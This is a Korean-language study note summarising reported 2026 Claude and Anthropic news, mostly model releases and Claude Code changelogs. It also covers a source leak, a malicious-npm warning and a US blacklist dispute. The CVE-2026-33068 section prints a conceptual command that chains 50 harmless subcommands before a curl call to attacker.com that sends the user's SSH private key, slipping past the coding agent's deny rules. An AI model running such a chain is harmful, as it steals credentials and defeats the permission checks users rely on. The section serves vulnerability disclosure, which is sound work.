

# Claude 2026 주요 업데이트 총정리

## 타임라인



---

## 1. 모델 업데이트

### Claude Opus 4.6 (2026-02-05)

| 항목 | 내용 |
|------|------|
| 컨텍스트 윈도우 | **1M 토큰** (100만) |
| 주요 개선 | 코딩, 계획, 디버깅 능력 강화 |
| 특징 | Finance Agent 벤치마크 1위, 14.5시간 연속 작업 가능 |
| 멀티에이전트 | "팀" 협업 기능 |
| 가용성 | claude.ai, API, AWS, GCP |

### Claude Sonnet 4.6 (2026-02-17)

| 항목 | 내용 |
|------|------|
| 가격 | Sonnet 4.5와 동일 |
| Computer Use | OSWorld 벤치마크 ~15% → **72.5%** |
| 주요 개선 | 코딩, 에이전트 검색, 장문 추론 |
| 컨텍스트 | 1M 토큰 (베타) |

### Claude Mythos (예정)

- Opus보다 상위 티어의 새 모델
- 고급 추론 기능 탑재 예정
- 별도 가격 책정

---

## 2. 제품 기능

### Cowork (2026-01)

- 코딩을 넘어 **모든 지식 근로자**를 위한 AI 작업 도구
- "Vibe Working": 목표를 말하면 거의 완성된 결과물 제공
- → 자세한 내용: [[11-cowork-dispatch]]

### Dispatch (2026-03-17)

- 모바일에서 작업 지시 → 데스크톱에서 실행
- **Persistent Thread**: 세션 리셋 없이 연속 작업
- Computer Use와 결합하여 데스크톱 자동 조작
- Pro/Max 플랜에서 사용 가능
- → 자세한 내용: [[11-cowork-dispatch]]

### Claude Code Channels (2026-03-20)

- Telegram, Discord, iMessage로 Claude Code 원격 제어
- MCP 서버 기반 양방향 통신
- 리서치 프리뷰 (v2.1.80+)
- → 자세한 내용: [[10-channels]]

### Computer Use (2026-03-24 정식)

- Claude가 데스크톱 화면을 보고 직접 조작
- 앱 열기, 웹 브라우저 탐색, 스프레드시트 편집
- Dispatch와 결합하여 부재중에도 작업 수행

### Claude Code v2.1.88 (2026-03-31) ⚠️ 소스코드 유출 사고

> ⚠️ **보안 경고**: 2026-03-31 00:21~03:29 UTC 사이에 npm에서 Claude Code를 설치한 경우, axios 1.14.1 또는 0.30.4 악성 버전(RAT 포함)이 설치되었을 수 있음. `plain-crypto-js` 의존성이 lockfile에 있으면 즉시 시크릿 교체 및 OS 재설치 권고.

**소스코드 유출 사고**

Anthropic이 npm 패키지에 59.8MB JavaScript 소스맵 파일(`.map`)을 실수로 포함시켜 **약 51만 줄(~1,900개 파일)의 TypeScript 소스코드**가 공개됨.

- 2026-03-31 04:23 ET, 보안 연구자 Chaofan Shou(@shoucccc)가 X에 최초 공개
- GitHub 백업 repo가 **41,500+ 포크**로 확산
- Anthropic 공식 입장: "고객 데이터·자격증명 노출 없음. 인간 실수로 인한 릴리스 패키징 오류"

**유출로 드러난 내부 정보**

| 코드명 | 실제 모델 |
|--------|-----------|
| Fennec | Opus 4.6 |
| Capybara | Claude 4.6 변종 (미출시) |
| Numbat | 테스트 중인 미공개 모델 |

- 44개의 기능 플래그(빌드는 완료됐지만 미출시 기능들)
- **Undercover Mode**: 내부 코드명이 외부에 노출되는 것을 막는 시스템 (아이러니하게 소스맵으로 전체 유출됨)
- **KAIROS**: "Always-On Claude" 영속 어시스턴트 모드 (세션 간 메모리 유지, 선제적 작업 시작)

**신규 기능**

- `CLAUDE_CODE_NO_FLICKER=1` 환경변수: 깜박임 없는 alt-screen 렌더링 (가상 스크롤백)
- `@` 멘션에서 이름 있는 서브에이전트 지원
- `PermissionDenied` 훅: auto mode classifier 거부 후 발동
- PowerShell 지원 확대, 권한 처리 개선
- 장세션 안정성, Windows/음성 모드 버그 수정

> 출처:
> - https://www.theregister.com/2026/03/31/anthropic_claude_code_source_code/
> - https://siliconangle.com/2026/03/31/anthropic-accidentally-exposes-claude-code-source-code-npm-packaging-error/
> - https://fortune.com/2026/03/31/anthropic-source-code-claude-code-data-leak-second-security-lapse-days-after-accidentally-revealing-mythos/

---

### Claude Code 사용량 한도 초과 이슈 (2026-03-31)

- 사용자들이 예상보다 훨씬 빠르게 Claude Code 쿼터를 소진하는 문제 발생
- Anthropic 공식 인정: "사람들이 예상보다 훨씬 빠르게 사용 한도에 도달하고 있다. 팀의 최우선 과제로 조사 중"
- 배경: 3월 28일 프로모션 종료(피크 타임 외 2배 한도), 피크 타임 쿼터 감소(사용자 7% 영향), 토큰 사용 증가 버그 가능성

> 출처: https://www.theregister.com/2026/03/31/anthropic_claude_code_limits/

---

### Claude Code v2.1.91 (2026-04-03)

**신규 기능**

- **MCP 툴 결과 영속성 제어**: `_meta["anthropic/maxResultSizeChars"]` 어노테이션으로 툴 결과 최대 크기 재정의 (최대 500,000자). 대규모 DB 스키마·API 응답이 잘려나가던 문제 해결
- **`disableSkillShellExecution` 설정**: Skill, 커스텀 슬래시 커맨드, 플러그인 커맨드 내 인라인 쉘 실행을 세밀하게 제어하는 보안 설정 추가
- **Plugin `bin/` 디렉토리 지원**: 플러그인이 실행 파일을 패키지에 포함하고 Bash 툴 내에서 직접 호출 가능. 플러그인 생태계 확장

**주요 버그 수정**

- `--resume` 시 프롬프트 캐시 미스 수정
- `Edit`/`Write` 파일 변경 처리 이슈 수정
- `PreToolUse` 훅이 툴 콜을 올바르게 차단하지 않던 문제 수정
- auto mode가 명시적 사용자 경계를 무시하던 문제 수정
- 프로젝트 루트 밖 파일 접근 실패 수정
- config 디스크 쓰기로 인한 Windows 파일 손상 수정
- 멀티라인 deep link 지원 추가

> 출처: https://claude-world.com/articles/claude-code-2191-release/

---

### Claude Code v2.1.92 (2026-04-04)

**신규 기능**

- `forceRemoteSettingsRefresh` 정책 설정: 원격 관리 설정을 새로 받아올 때까지 CLI 시작 차단 (fail-closed 방식)
- 로그인 화면에서 접근 가능한 **대화형 Bedrock 설정 마법사**
- 구독 사용자 `/cost` 명령에 **모델별·캐시 히트별 세분화 내역** 추가
- `/release-notes` 명령이 **대화형 버전 선택기**로 개선
- Remote Control 세션 이름이 호스트명을 기본 접두사로 사용 (예: `myhost-graceful-unicorn`)
- Pro 사용자가 프롬프트 캐시 만료 후 세션 복귀 시 푸터 힌트 표시

**주요 버그 수정**

- tmux 창 종료 후 서브에이전트 생성이 "Could not determine pane count" 오류로 영구 실패하는 문제 수정
- 소형 fast 모델이 `ok:false`를 반환할 때 prompt-type Stop 훅이 잘못 실패하는 문제 수정
- 스트리밍에서 배열/객체 필드가 JSON 인코딩 문자열로 전송될 때 툴 입력 유효성 검사 실패 수정
- extended thinking이 공백만 있는 텍스트 블록을 생성할 때 API 400 오류 수정
- 오토파일럿 키 입력으로 피드백 설문이 의도치 않게 제출되는 문제 수정
- Write 툴 diff 계산 속도 **60% 향상** (탭/`&`/`$` 포함 파일)
- 다양한 터미널 에뮬레이터 지원 개선

**제거된 명령어**

- `/tag` 명령어 제거
- `/vim` 명령어 제거 → `/config` → Editor mode에서 토글 가능

> 출처: https://code.claude.com/docs/en/changelog

---

### OpenClaw 및 서드파티 에이전트 구독 종료 (2026-04-04)

- Anthropic이 **2026-04-04 12:00 PT**부로 Claude Pro/Max 구독을 OpenClaw 및 모든 서드파티 에이전트 도구에서 사용하는 것을 종료
- 해당 도구 사용자는 **종량제(pay-as-you-go)** 초과 사용 청구 또는 **직접 API 접근**으로 전환 필요
- 배경: 구독 플랜을 API 연동 도구에 우회 사용하는 것을 방지하기 위한 정책 변경

> 출처: https://venturebeat.com/technology/anthropic-cuts-off-the-ability-to-use-claude-subscriptions-with-openclaw-and

---

### Claude Code v2.1.90 (2026-04-01)

**신규 기능**

- `/powerup` 명령어: Claude Code 기능을 애니메이션 데모로 가르쳐주는 인터랙티브 레슨
- `CLAUDE_CODE_PLUGIN_KEEP_MARKETPLACE_ON_FAILURE` 환경변수: `git pull` 실패 시 기존 마켓플레이스 캐시 유지 (오프라인 환경 지원)
- `.husky` 디렉토리를 보호 목록에 추가 (acceptEdits 모드)

**주요 버그 수정**

- 사용량 한도 초과 후 rate-limit 옵션 대화상자가 반복 자동 열리던 무한 루프 수정
- deferred tools, MCP 서버, 또는 커스텀 에이전트 사용자에서 `--resume` 시 프롬프트 캐시 미스 수정 (v2.1.69 이후 회귀)
- `PostToolUse` format-on-save 훅이 파일을 재작성할 때 `Edit`/`Write`가 "File content has changed" 오류로 실패하던 문제 수정
- `PreToolUse` 훅이 JSON을 stdout에 출력하고 코드 2로 종료 시 툴 콜을 올바르게 차단하지 않던 문제 수정
- auto mode가 명시적 사용자 경계("push하지 마세요", "X 전에 Y를 기다리세요")를 무시하던 문제 수정
- 라이트 터미널 테마에서 hover 텍스트가 거의 안 보이던 문제 수정
- 잘못된 툴 입력이 권한 대화상자에 도달 시 UI 크래시 수정
- `/model`, `/config` 등 선택 화면 스크롤 시 헤더 사라지던 문제 수정

**성능 & 보안 개선**

- 매 턴마다 MCP 툴 스키마를 JSON.stringify 하던 작업 제거로 성능 향상
- SSE 전송이 대용량 프레임을 선형 시간으로 처리
- SDK 세션이 더 이상 이차적으로 느려지지 않음
- `/resume` 전체 프로젝트 뷰가 세션을 병렬로 로드하도록 개선
- `--resume` 피커에서 `-p` 또는 SDK 호출로 생성된 세션 더 이상 표시하지 않음
- PowerShell 툴 권한 검사 강화
- **프라이버시**: `Get-DnsClientCache` 및 `ipconfig /displaydns`를 auto-allow 목록에서 제거 (DNS 캐시 정보 보호)

> 출처: https://code.claude.com/docs/en/changelog

---

### Claude Code v2.1.89 (2026-04-01)

**신규 기능**

- `"defer"` 권한 결정: `PreToolUse` 훅에서 headless 세션이 툴 콜 지점에서 일시 중단 → `-p --resume`으로 재개하여 재평가 가능
- `CLAUDE_CODE_NO_FLICKER=1` 환경변수: 가상 스크롤백을 사용한 깜박임 없는 alt-screen 렌더링
- `PermissionDenied` 훅: auto mode classifier 거부 후 발동. `{retry: true}` 반환 시 재시도 허용
- `@` 멘션 typeahead에서 **이름 있는 서브에이전트** 제안 표시
- `MCP_CONNECTION_NONBLOCKING=true`: `-p` 모드에서 MCP 연결 대기 완전 생략
- Auto mode: 거부된 명령이 알림으로 표시되고 `/permissions` → Recent 탭에서 `r`로 재시도 가능
- `/buddy` 명령어 (4월 1일 이스터에그): 코딩 중 함께하는 작은 생명체 부화 기능

**주요 버그 수정**

- `Edit(//path/**)` 및 `Read(//path/**)` allow 규칙에서 resolve된 심링크 대상 확인 수정
- 음성 push-to-talk 활성화 문제 및 Windows WebSocket 오류 수정
- Windows에서 Edit/Write 툴이 CRLF를 이중으로 추가하고 Markdown 하드 줄바꿈을 제거하던 문제 수정
- `StructuredOutput` 스키마 캐시 버그 수정 (다중 스키마 시 ~50% 실패율)
- 장시간 세션에서 대용량 JSON 입력으로 인한 메모리 누수 수정
- 50MB 이상 세션 파일에서 메시지 삭제 시 크래시 수정
- LSP 서버 크래시 후 좀비 상태 수정
- 4KB 경계에서 CJK/이모지 포함 프롬프트 히스토리 누락 수정
- `/stats`에서 토큰 수 미달 집계 및 30일 초과 데이터 손실 수정
- `-p --resume`에서 지연된 툴 입력 >64KB 시 hang 수정

**UX 개선**

- 축약된 툴 요약에서 `ls`/`tree`/`du` 결과를 "Listed N directories"로 표시
- PowerShell 버전별 적절한 문법 안내 개선
- Bash 툴이 포매터/린터가 이전에 읽은 파일을 수정할 때 경고 표시

> 출처: https://code.claude.com/docs/en/changelog

---

### Claude Code v2.1.87 (2026-03-29)

**버그 수정**
- Cowork Dispatch에서 메시지가 전달되지 않던 문제 수정

> 출처: https://github.com/anthropics/claude-code/releases/tag/v2.1.87

---

### Claude Code v2.1.86 (2026-03-27)

**세션 & 프록시**
- API 요청에 `X-Claude-Code-Session-Id` 헤더 추가 (프록시 집계 지원)
- MCP 서버 중복 제거: 로컬 설정과 claude.ai 커넥터 동시 설정 시 로컬 우선

**VCS 지원 확대**
- `.jj` (Jujutsu), `.sl` (Sapling) 디렉토리 제외 목록 추가

**버그 수정**
- `--resume` 시 "tool_use ids without tool_result blocks" 오류 수정
- 프로젝트 루트 밖 파일에서 Write/Edit/Read 도구 실패 수정
- `deniedMcpServers` 설정이 claude.ai MCP 서버를 차단하지 못하던 문제 수정
- `--bare` 모드에서 MCP 도구가 누락되던 문제 수정
- `/feedback` 사용 시 긴 세션에서 OOM 크래시 수정
- 마스킹된 입력(OAuth 코드)에서 토큰 시작 부분이 노출되던 문제 수정
- macOS/Linux에서 v2.1.83 이후 공식 마켓플레이스 플러그인 스크립트 실패 수정
- 리모트 세션 스트리밍 중단 시 메모리 누수 수정
- 엣지 연결 변경 시 ECONNRESET 오류 반복 수정

**성능 & UX 개선**
- macOS 키체인 캐시 스타트업 지연 단축 (5초 → 30초 간격)
- `@` 파일 멘션의 토큰 오버헤드 감소
- Bedrock/Vertex/Foundry 프롬프트 캐시 히트율 향상
- 1M 이상 토큰 수 표시 방식 개선 (`1512.6k` → `1.5m`)
- ToolSearch 활성화 시 글로벌 시스템 프롬프트 캐싱 정상 동작
- 메모리 파일명 클릭 시 하이라이트 및 열기 지원
- Skill 설명 250자 상한 적용, `/skills` 메뉴 알파벳 정렬

**신규 기능**
- statusline 스크립트에 `rate_limits` 필드 추가 (claude.ai 사용량 표시)
- `source: 'settings'` 플러그인 마켓플레이스 소스 지원
- skill/슬래시 커맨드에 `effort` frontmatter 지원
- `--channels` 플래그 리서치 프리뷰: MCP 서버가 세션으로 메시지 push 가능

**VS Code**
- 긴 작업 중 확장 프로그램 무응답 수정
- OAuth 갱신 후 Max 플랜 사용자가 Sonnet으로 기본 설정되던 문제 수정

> 출처: https://code.claude.com/docs/en/changelog

---

### Claude Apps (모바일)

- iOS/Android에서 인터랙티브 앱 실행
- 차트, 다이어그램 등 시각화를 대화 내에서 직접 렌더링
- 라이브 시각화 공유 가능

---

## 3. API & 플랫폼

### ⚠️ 모델 Deprecation 공지

| 모델 | 서비스 종료일 | 대체 모델 |
|------|-------------|-----------|
| Claude Haiku 3 (claude-3-haiku-20240307) | **2026-04-19** | Claude Haiku 4.5 |
| Sonnet 4.5/Sonnet 4 1M 컨텍스트 베타 (`context-1m-2025-08-07` 헤더) | **2026-04-30** | Claude Sonnet 4.6 또는 Opus 4.6 (정식 1M 지원) |

> 출처: https://releasebot.io/updates/anthropic

---

### Models API capability fields 추가 (2026-03-24)

- `GET /v1/models` 및 `GET /v1/models/{model_id}` 응답에 신규 필드 추가
  - `max_input_tokens`: 모델의 최대 입력 토큰 수
  - `max_tokens`: 모델의 최대 출력 토큰 수
  - `capabilities`: 모델 기능 목록 객체

```bash
# 모델 능력 조회 예시
curl https://api.anthropic.com/v1/models/claude-opus-4-6 \
  -H "x-api-key: $ANTHROPIC_API_KEY" \
  -H "anthropic-version: 2023-06-01"
# 응답에 max_input_tokens, max_tokens, capabilities 포함
```

> 출처: https://docs.anthropic.com/en/docs/changelog

---

### Message Batches API max_tokens 300k (2026-03-24)

- Message Batches API에서 Claude Opus 4.6 및 Sonnet 4.6의 `max_tokens` 상한이 **300,000 토큰**으로 상향
- 장문 콘텐츠, 대규모 구조화 데이터, 대용량 코드 작업에 활용 가능
- `output-300k-2026-03-24` 베타 헤더로 단일 턴 출력도 300k까지 확장 가능

```bash
# 300k 출력 활성화 예시
curl https://api.anthropic.com/v1/messages \
  -H "anthropic-beta: output-300k-2026-03-24" \
  -d '{"model": "claude-opus-4-6", "max_tokens": 300000, ...}'
```

> 출처: https://docs.anthropic.com/en/docs/changelog

---

### 코드 실행 무료화

- Web Search 또는 Web Fetch와 함께 사용 시 **API 코드 실행 무료**
- 샌드박스 코드 실행으로 모델 능력 + 토큰 효율 향상

### Web Search & Web Fetch GA

- 프로그래매틱 도구 호출 정식 출시
- 동적 필터링 지원으로 성능 개선 & 토큰 비용 절감

### Claude Code 개선

- **Auto Mode**: 자동 실행 모드
- **Bare Mode**: 스크립트용 `-p` 호출 최적화
- OAuth, 음성 모드, 세션, 플러그인, Windows 이슈 수정

---

## 4. 보안 & 엔터프라이즈

### Claude.ai 서비스 장애 (2026-04-06)

- 한국시간 2026-04-06 오전, Downdetector에서 오전 10:30 ET 경 급격한 신고 증가
- 영향 범위: claude.ai 로그인, 음성 모드, 채팅 기능, Claude Code 로그인 포함
- 최대 8,000명 이상 사용자 장애 보고, 약 2시간 지속
- Anthropic 공식 상태 페이지: "Elevated errors on Claude.ai"
- 오후 12:44 ET 수정 완료 발표

> 출처: https://www.tomsguide.com/news/live/claude-ai-down-outage-4/6/26

---

### ⚠️ CVE-2026-33068: Claude Code Deny 규칙 우회 취약점 공개 (2026-04-06)

> 패치 버전: **v2.1.90** (2026-04-01 릴리스), 취약점 공개: 2026-04-06

**취약점 개요**

- `bashPermissions.ts` (lines 2162–2178)의 퍼포먼스 최적화 코드에서 발생
- 쉘 명령어에 `&&`, `||`, `;`로 연결된 서브커맨드가 **50개를 초과**하면 deny 규칙 검사를 건너뛰고 일반 권한 프롬프트로 대체
- 공격자가 50번째 이후 악성 서브커맨드를 숨겨 **deny 규칙을 무음 우회** 가능

**위험 시나리오**

- CI 환경에서 SSH 키, API 토큰 탈취 위험
- 개발자가 설정한 deny 규칙이 사실상 무력화

**기술 세부 사항**

```bash
# 공격 예시 (개념적): 50개 안전 명령 + 51번째 악성 명령
safe_cmd1 && safe_cmd2 && ... && safe_cmd50 && curl attacker.com -d "$(cat ~/.ssh/id_rsa)"
# deny 규칙: curl attacker.com → 우회됨
```

**추가 발견 사항**

- 동일 코드베이스 내 tree-sitter 기반 신규 파서는 이 문제 없이 올바르게 deny 규칙 검사
- 그러나 모든 공개 빌드는 취약한 레거시 regex 파서를 사용

**조치**

- v2.1.90 이상으로 업데이트 시 수정됨 (현재 최신: v2.1.92)
- CVE ID: **CVE-2026-33068**

> 출처:
> - https://cybersecuritynews.com/claude-code-vulnerability/
> - https://adversa.ai/blog/claude-code-security-bypass-deny-rules-disabled/
> - https://www.sentinelone.com/vulnerability-database/cve-2026-33068/

---

### ⚠️ 미국 정부 Anthropic 블랙리스트 지정 (2026-04-05)

> 🚨 **최신 (2026-04-05)**: 미국 정부가 Anthropic을 **국가안보 공급망 위험(Supply-Chain Risk)** 기업으로 공식 지정

**배경**

- Anthropic은 2025년 미 국방부와 **$2억 규모 계약** 체결 (분류 시스템 내 AI 도입 목적)
- 계약 후 협상에서 Anthropic이 거부한 것:
  - 대규모 감시(mass surveillance)에 Claude 사용
  - 자율 무기(autonomous weapons) 발사 결정에 Claude 사용
- 트럼프 행정부는 이를 "국가안보에 대한 불용납 위험"으로 간주, 국방부가 공급망 위험 기업으로 지정

**타임라인**

| 날짜 | 사건 |
|------|------|
| 2026-02-27 | 트럼프, Anthropic 블랙리스트 발표 |
| 2026-03-09 | Anthropic, 행정부 상대 소송 제기 |
| 2026-03-24 | 연방 판사 청문회 ("꽤 낮은 기준이군요") |
| 2026-03-26 | U.S. District Judge Rita F. Lin, 집행 **가처분** 발령 |
| 2026-04-02 | 국방부, 가처분 판결 항소 |
| 2026-04-05 | 블랙리스트 **재발효** — Anthropic 추가 소송 진행 중 |

**의의 및 영향**

- 공급망 위험 지정이 **미국 내 기업**에 적용된 **최초 사례**
- 통상 테러리스트, 외국 정보기관, 적대적 외국 행위자에만 적용되던 제도
- 영국 정부는 Anthropic에 **확장 및 이중 상장** 제안으로 유치 경쟁 시작
- CEO Dario Amodei, 2026년 5월 말 영국 방문 예정

> 출처:
> - https://letsdatascience.com/news/us-blacklists-anthropic-as-security-risk-5e0f08ff
> - https://techcrunch.com/2026/03/18/dod-says-anthropics-red-lines-make-it-an-unacceptable-risk-to-national-security/
> - https://www.axios.com/2026/02/27/anthropic-pentagon-supply-chain-risk-claude

---

### Claude Code Security (2026-02-20)

- 추론 기반 코드 취약점 탐지
- 오픈소스 프로덕션 코드에서 **500개 이상 미탐지 취약점** 발견
- 사이버보안 대회 및 주요 인프라 방어에 활용

### Enterprise Cowork (2026-02-24)

- **Deep Connectors**: Google Drive, Gmail, DocuSign, FactSet 연동
- **Private Plugin Marketplace**: 조직 내 승인된 에이전트 배포
- 관리자 도구 접근 권한 통제

### 주요 도입 사례

| 기업 | 활용 | 효과 |
|------|------|------|
| Spotify | 코드 마이그레이션 | 엔지니어링 시간 **90% 절감** |
| Novo Nordisk | NovoScribe (규제 문서) | 규제 준수 자동화 |
| Accenture | AI 사이버보안 운영 | 보안 운영 확장 |

---

## 5. 안전성 & 확장

### Responsible Scaling Policy v3.0

- 업데이트된 안전 프레임워크
- 공개 로드맵 + 제3자 리뷰 체계

### 글로벌 확장

- 벵갈루루 오피스 설립
- Infosys 파트너십 (규제 산업)
- GOV.UK AI 어시스턴트 개발
- 10개 인도 언어 지원 개선
- **(2026-04-01)** 호주 정부와 AI 안전·연구 협력 **MOU 체결**, 데이터센터 인프라 & 에너지 투자 검토 발표

> 출처: https://letsdatascience.com/news/anthropic-explores-data-centre-investments-in-australia-42c8bb76

---

## 6. 기능 비교표: Channels vs Dispatch

| 비교 항목 | Claude Code Channels | Cowork Dispatch |
|-----------|---------------------|-----------------|
| 대상 사용자 | **개발자** | **모든 지식 근로자** |
| 작업 영역 | 코드, 터미널, Git | 데스크톱 앱 전체 |
| 통신 방식 | Telegram/Discord/iMessage | Claude 모바일 앱 |
| 실행 환경 | Claude Code 세션 (터미널) | Claude Desktop (GUI) |
| Computer Use | ❌ | ✅ |
| Persistent Thread | ❌ (세션 기반) | ✅ |
| 설정 난이도 | 봇 생성 + MCP 설정 | 앱 설치만 |
| 적합한 상황 | 코딩 워크플로우 자동화 | 범용 데스크톱 작업 자동화 |

---

## 7. 학습 체크리스트

- [ ] 2026년 Claude 주요 업데이트 흐름을 설명할 수 있다
- [ ] Channels와 Dispatch의 차이점을 이해한다
- [ ] Computer Use의 발전과 현재 성능을 안다
- [ ] Cowork Enterprise 기능을 파악하고 있다
- [ ] 각 기능의 요구사항(플랜, 버전)을 안다

---

## 8. References

- [Anthropic 2026 업데이트 총정리](https://fazal-sec.medium.com/anthropics-explosive-start-to-2026-everything-claude-has-launched-and-why-it-s-shaking-up-the-668788c2c9de)
- [CNBC - Claude Computer Use](https://www.cnbc.com/2026/03/24/anthropic-claude-ai-agent-use-computer-finish-tasks.html)
- [Anthropic Release Notes](https://releasebot.io/updates/anthropic)
- [Claude Platform Release Notes](https://platform.claude.com/docs/en/release-notes/overview)
- [The Register - Claude Code 소스코드 유출](https://www.theregister.com/2026/03/31/anthropic_claude_code_source_code/)
- [The Register - Claude Code 사용량 한도](https://www.theregister.com/2026/03/31/anthropic_claude_code_limits/)
- [Fortune - Anthropic 소스코드 2차 유출](https://fortune.com/2026/03/31/anthropic-source-code-claude-code-data-leak-second-security-lapse-days-after-accidentally-revealing-mythos/)
- [SiliconANGLE - npm 패키징 오류](https://siliconangle.com/2026/03/31/anthropic-accidentally-exposes-claude-code-source-code-npm-packaging-error/)
- [Claude Code v2.1.91 Release Notes](https://claude-world.com/articles/claude-code-2191-release/)
- [Claude Code v2.1.92 Changelog](https://code.claude.com/docs/en/changelog)
- [Claude Code v2.1.90 Changelog](https://code.claude.com/docs/en/changelog)
- [Claude Code v2.1.89 Changelog](https://code.claude.com/docs/en/changelog)
- [VentureBeat - OpenClaw 구독 종료](https://venturebeat.com/technology/anthropic-cuts-off-the-ability-to-use-claude-subscriptions-with-openclaw-and)
- [Anthropic 호주 데이터센터 투자 검토](https://letsdatascience.com/news/anthropic-explores-data-centre-investments-in-australia-42c8bb76)
- [TechCrunch - Anthropic is having a month](https://techcrunch.com/2026/03/31/anthropic-is-having-a-month/)
- [Let's Data Science - 미국 Anthropic 블랙리스트](https://letsdatascience.com/news/us-blacklists-anthropic-as-security-risk-5e0f08ff)
- [TechCrunch - DOD Anthropic 블랙리스트 배경](https://techcrunch.com/2026/03/18/dod-says-anthropics-red-lines-make-it-an-unacceptable-risk-to-national-security/)
- [Axios - 트럼프 Anthropic 블랙리스트 발표](https://www.axios.com/2026/02/27/anthropic-pentagon-supply-chain-risk-claude)
- [Tom's Guide - Claude.ai Outage April 6](https://www.tomsguide.com/news/live/claude-ai-down-outage-4/6/26)
- [CybersecurityNews - CVE-2026-33068](https://cybersecuritynews.com/claude-code-vulnerability/)
- [Adversa AI - Claude Code Deny Rules Bypass](https://adversa.ai/blog/claude-code-security-bypass-deny-rules-disabled/)
- [SentinelOne - CVE-2026-33068](https://www.sentinelone.com/vulnerability-database/cve-2026-33068/)
- 관련 노트: [[10-channels]], [[11-cowork-dispatch]], [[03-claude-code]]
